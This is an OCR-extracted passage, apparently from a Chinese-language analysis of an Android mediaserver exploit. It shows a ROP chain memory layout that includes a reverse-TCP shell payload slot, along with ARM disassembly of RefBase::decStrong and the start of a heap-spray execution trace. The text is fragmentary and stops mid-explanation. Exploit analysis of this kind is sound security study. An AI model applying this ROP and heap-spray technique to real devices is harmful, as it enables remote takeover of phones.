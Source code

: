 7

ROP+0x18

0xd000d003

ROP+0x1C

0xd000d004

ROP+0x20

0xb001144{}

ROP+0x24

sp_addr + 0x80

ROP+0x28

0xf0f00000 + x1

…

… …

ROP+0x4C

payload/shell_reverse_tcp

…

…

0x1000

0xf0f00000 + xn

从exploit看，mediaserver crash时代码走到了`android::RefBase::decStrong(android::RefBase*__hidden this, const void *)`，汇编代码如下：

    
    
    .text:0000EE34 70 B5         PUSH  {R4-R6,LR}
    .text:0000EE36 05 46         MOV   R5, R0
    .text:0000EE38 44 68         LDR   R4, [R0,#4]
    .text:0000EE3A 0E 46         MOV   R6, R1
    .text:0000EE3C 20 46         MOV   R0, R4
    .text:0000EE3E FD F7 54 EB   BLX   android_atomic_dec
    .text:0000EE42 01 28         CMP   R0, #1
    .text:0000EE44 0B D1         BNE   loc_EE5E
    .text:0000EE46 A0 68         LDR   R0, [R4,#8]
    .text:0000EE48 01 68         LDR   R1, [R0]
    .text:0000EE4A CA 68         LDR   R2, [R1,#0xC]
    .text:0000EE4C 31 46         MOV   R1, R6
    .text:0000EE4E 90 47         BLX   R2
    

按这段代码的执行流程如下：

**1）r0 = spray_address = sa**
    
    